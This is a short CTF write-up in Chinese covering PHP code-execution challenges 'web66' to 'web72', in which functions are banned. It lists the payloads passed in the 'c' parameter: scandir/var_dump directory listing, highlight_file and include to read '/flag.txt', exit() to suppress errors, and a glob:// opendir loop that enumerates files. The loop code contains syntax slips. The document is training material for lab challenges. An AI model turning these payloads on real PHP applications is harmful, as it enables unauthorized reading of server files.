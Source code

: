 # web66: 命令执行，禁止函数

```
c=highlight('flag.php');    //输出被重定向了，换一个方法
c=var_dump(scandir('.'))    //看一下当前目录，是不是flag被改地址了
c=var_dump(scandir('../'))     //看一下上一层
c=var_dump(scandir('/'))     //查看根目录，点击查看源文件发现了flag.txt
c=highlight_file('/flag.txt')    //高亮根目录下的flag文件
```

# web68:命令执行，禁止函数，hightlight_file被ban

```
方法一：使用Include
c=include('flag.php');echo $flag;     //失败
方法二：
c=print_r(scandir('/'))     //print_r被ban
方法三：
c=var_dump(scandir('/'))     //展示根目录，可以使用，发现flag.txt
c=include('/flag.txt');echo $flag;
```

# web71：命令执行，禁止函数，无报错信息

```
查看源码后的思路，在echo处直接中断代码，使得后面无报错信息失效
c=include('/flag.txt');exit();
```

# web72: 命令执行，禁止函数,无报错信息

```
c=include('/flag.txt');exit();    //报错，不支持这个文件
c=var_dump(scandir('/'));exit()    //找一下flag文件位置，var_dump被禁用
c=$a=scandir('/');exit();    //fail to open /，说明我们没有读权限

```

```
c=$a="glob:// /*.txt";     //定义一个路径，根目录下所有txt文件
	if($b=opendir($a)){     //循环读
		while($file=readdir($b)!==false){
			echo"filename:".$file."\n"
		}
		closedir($b);
	}
	exit();
成功发现flag0.txt文件

c=include("/flag0.txt");exit();     //由于flag不在根目录，失败

使用72poc绕过脚本，粘贴到body部分，记得URL编码
```
[[72poc绕过脚本]]
